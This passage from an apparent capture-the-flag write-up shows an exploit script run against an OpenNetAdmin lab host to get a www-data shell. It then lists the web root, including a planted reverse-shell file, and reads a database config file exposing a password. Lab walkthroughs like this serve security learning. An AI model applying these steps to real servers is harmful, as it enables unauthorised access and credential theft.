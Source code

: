 Give the file executable permissions and run the exploit.

```r
m1m3@kali:~$ chmod +x exploit.sh 
m1m3@kali:~$ ./exploit.sh http://10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)   
```

### User Shell

We managed to get a low privileged shell! Let's now go for the user. Currently we are in <i>/opt/ona/www/</i>

```r
$ pwd                                   
/opt/ona/www
$ ls -lah
total 80K
drwxrwxr-x 10 www-data www-data 4.0K May  1 17:04 .
drwxr-x---  7 www-data www-data 4.0K Nov 21 18:23 ..
-rw-rw-r--  1 www-data www-data 2.0K Jan  3  2018 .htaccess.example
drwxrwxr-x  2 www-data www-data 4.0K Jan  3  2018 config
-rw-rw-r--  1 www-data www-data 2.0K Jan  3  2018 config_dnld.php
-rw-rw-r--  1 www-data www-data 4.1K Jan  3  2018 dcm.php
drwxrwxr-x  3 www-data www-data 4.0K Jan  3  2018 images
drwxrwxr-x  9 www-data www-data 4.0K Jan  3  2018 include
-rw-rw-r--  1 www-data www-data 2.0K Jan  3  2018 index.php
drwxrwxr-x  5 www-data www-data 4.0K Jan  3  2018 local
-rw-rw-r--  1 www-data www-data 4.5K Jan  3  2018 login.php
-rw-rw-r--  1 www-data www-data 1.1K Jan  3  2018 logout.php
drwxrwxr-x  3 www-data www-data 4.0K Jan  3  2018 modules
-rw-r--r--  1 www-data www-data 5.4K May  1 16:40 php-reverse-shell.php
drwxrwxr-x  3 www-data www-data 4.0K Jan  3  2018 plugins
drwxrwxr-x  2 www-data www-data 4.0K Jan  3  2018 winc
drwxrwxr-x  3 www-data www-data 4.0K Jan  3  2018 workspace_plugins
```

If we look into the contents of local/config/ we can see a config file, which gives us a password. 

```r
$ ls -lah local/config/
total 16K
drwxrwxr-x 2 www-data www-data 4.0K Nov 21 16:51 .
drwxrwxr-x 5 www-data www-data 4.0K Jan  3  2018 ..
-rw-r--r-- 1 www-data www-data  426 Nov 21 16:51 database_settings.inc.php
-rw-rw-r-- 1 www-data www-data 1.2K Jan  3  2018 motd.txt.example
-rw-r--r-- 1 www-data www-data    0 Nov 21 16:28 run_installer

$ cat local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
```